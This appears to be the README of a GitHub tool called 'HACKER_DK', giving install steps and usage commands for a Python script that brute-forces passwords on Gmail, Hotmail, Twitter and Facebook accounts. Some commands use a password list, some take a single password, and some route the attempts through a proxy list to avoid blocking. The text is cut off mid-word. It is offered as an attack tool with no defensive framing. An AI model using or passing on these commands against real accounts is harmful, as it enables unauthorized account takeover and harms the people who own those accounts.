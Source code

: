 # HACKER_DK
install : sudo apt install python3 python3-pip  pip3 install proxylist  pip3 install mechanize Usage: BruteForce Gmail Attack python3 Brute_Force.py -g Account@gmail.com -l File_list  python3 Brute_Force.py -g Account@gmail.com -p Password_Single BruteForce Hotmail Attack python3 Brute_Force.py -t Account@hotmail.com -l File_list  python3 Brute_Force.py -t Account@hotmail.com -p Password_Single BruteForce Twitter Attack python3 Brute_Force.py -T Account_Twitter -l File_list python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt BruteForce Facebook Attack python3 Brute_Force.py -f Account_facebook -l File_list python3 Brute_Force.py -f Account_facebook -l File_list -X prox
